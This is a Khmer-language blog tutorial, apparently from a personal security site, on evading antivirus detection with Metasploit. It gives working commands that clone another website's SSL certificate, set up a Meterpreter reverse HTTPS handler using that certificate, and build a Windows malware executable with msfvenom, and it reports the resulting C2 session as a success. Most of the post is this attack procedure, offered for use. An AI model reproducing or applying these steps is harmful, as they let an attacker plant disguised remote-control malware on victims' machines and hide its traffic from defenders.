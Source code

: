 ```yaml
---
title: "Impersonate SSL - MSF Bypass Detection"
date: 2022-12-03T21:01:06+07:00
description: ក្លែងបន្លំ SSL និងបញ្ជៀសពីការចាប់របស់ AV
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- metasploit
- ssl
- bypass
categories:
- CA
series:
- WinExE
image: images/feature2/article-1.png
---
```


#### Clone SSL Certification

តើអ្នកដឹងទេថា យើងអាចធ្វើការថតចម្លងនូវរាល់ឯកសារ SSL Certificate របស់គេហទំព័រដទៃបាន ដោយប្រើប្រាស់ Module មួយនៅក្នុង Metasploit Framework ដែលត្រូវបានបង្កើតឡើងដោយលោក Chris John Riley ។ ឯកសារដែលត្រូវបានថតចម្លងនោះ នឹងត្រូវរក្សាទុកជាប្រភេទទម្រង់ឯកសារ PEM ហើយវាក៏អាចប្រើប្រាស់បានគ្រប់ប្រភេទ Modules នៅក្នុង Metasploit ផងដែរ។

ដើម្បីថតចម្លង យើងអាចប្រើប្រាស់ពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight zsh "linenos=table" >}}
use auxiliary/gather/impersonate_ssl
set rhosts https://example.com/
exploit
{{< / highlight >}}

![SSL certificate cloning](/en/posts/img/2022/12/impersonate-ssl/clone-ssl.jpg)

ដូចដែលរូបបានបង្ហាញខាងលើ គឺយើងបានថតចម្លងឯកសារ Certificate បានសម្រេច។

#### Meterpreter Using SSL Connection

ខាងក្រោមនេះគឺជាការសាកល្បងប្រើប្រាស់ SSL Certificate ដែលបានថតចម្លងនោះមកភ្ជាប់ទំនាក់ទំងរវាង Attacker PC និង Victim PC ដោយប្រើប្រាស់ Reverse Shell ជាប្រភេទ HTTPS ។

បើកចូលផ្ទាំង Terminal នៃ Metasploit Framework រួចបញ្ចូលពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight zsh "linenos=table" >}}
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.xxx.xxx
set lport xxx
set stagerverifysslcert true
set handlersslcert /xxx/xxx/xxx/cert.pem
exploit
{{< / highlight >}}

#### Generate HTTPS Malicious Payload

បង្កើតមេរោគតាមរយៈ Msfvenom និងជ្រើសរើស HTTPS Reverse Shell ។

{{< highlight plain "linenos=table" >}}
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.xxx.xxx lport=xxx -f exe -b '\x00' -o ~/Desktop/s0rry.exe
{{< / highlight >}}

![Generate Payload](/en/posts/img/2022/12/impersonate-ssl/generate-payload.jpg)

#### Exploited

សាកល្បងបើកដំណើរការមេរោគក្នុងប្រព័ន្ធប្រតិបត្តិការវីនដូ។

![Exploited](/en/posts/img/2022/12/impersonate-ssl/exploited.jpg)

ជោគជ័យ!!! C2 ពេលនេះដំណើរការនៅលើ SSL Encryption ៕